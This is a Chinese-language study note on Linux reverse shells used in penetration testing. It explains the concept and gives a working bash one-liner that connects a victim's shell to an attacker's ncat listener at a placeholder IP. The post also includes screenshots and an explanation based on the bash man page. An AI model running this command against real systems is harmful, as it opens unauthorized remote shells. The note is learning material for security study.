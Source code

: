 ```yaml
---
title: Linux 反弹shell实践
category: Sec
---
```


## Linux 反弹shell实践

### 0x00 前述

在很多渗透场景下我们都需要反弹shell。

这里的`shell`指的是靶机监听某端口，一旦有外部流量接入就分配一个shell；`反弹shell`则指攻击者的机器上监听某端口，靶机主动去连接这个端口并分配给攻击者一个shell。

`反弹shell`在以下两种环境中具有独特优势：

1. 靶机没有公网IP（或者说，没有能够直接被攻击者访问到的IP）
2. 靶机本身或所在网络的防火墙对出口流量不做限制或限制小

网络上已经有很多关于这方面的文章。本文为学习笔记。

### 0x01 反弹shell：bash

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
bash -i >& /dev/tcp/[ATTACKER-IP]/10000 0>&1
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-0.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-1.png)

注意上面的靶机只有一个内网地址`192.168.246.xxx`。

**原理**

参考[这篇文章](http://os.51cto.com/art/201709/550457.htm)。

`bash -i`是以交互方式打开一个`bash`；  

参考`man bash`的`REDIRECTION`部分：

关于`/dev/tcp/[ATTACKER-IP]/10000`：

```
/dev/tcp/host/port

If  host  is  a  valid  hostname or Internet address, 
    and port is an integer port number or service
    name, bash attempts to open the corresponding TCP socket.
```
